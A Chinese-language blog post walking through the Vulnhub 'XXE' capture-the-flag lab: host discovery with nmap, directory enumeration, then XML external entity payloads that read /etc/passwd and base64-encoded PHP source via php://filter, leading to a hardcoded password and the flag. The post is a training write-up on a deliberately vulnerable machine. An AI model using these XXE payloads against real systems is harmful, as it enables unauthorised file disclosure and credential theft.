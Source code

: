 ```yaml
---
layout: post
title: Vulnhub靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口。

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页。

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，admin.php。

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面。

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- admin.php在/xxe/目录下。ip/xxe/admin.php同样是登录界面。

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显。

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显。

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- base64解密，源码分析，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)

![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

- 登录admin.php。

![xxe-11](https://cijian00.github.io/img/Vulnhub/XXE/11.png)

- 点击链接，跳转至/xxe/flagmeout.php。
- 显示是空白页，查看页面源代码。

![xxe-12](https://cijian00.github.io/img/Vulnhub/XXE/12.png)

- 先进行base32解密，再进行base64解密。
- 可得/etc/.flag.php。

![xxe-13](https://cijian00.github.io/img/Vulnhub/XXE/13.png)

- 查看/etc/.flag.php。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/.flag.php">
]>
<root><name>&admin;</name><password>1</password></root>
```
- base64解密之后看着像无特征码的PHP Webshell。

![xxe-14](https://cijian00.github.io/img/Vulnhub/XXE/14.png)

- 保存至本地环境，命名为flag.php。前后分别添加上```<?php   ?>```。
- 再访问flag.php可得flag。

![xxe-15](https://cijian00.github.io/img/Vulnhub/XXE/15.png)
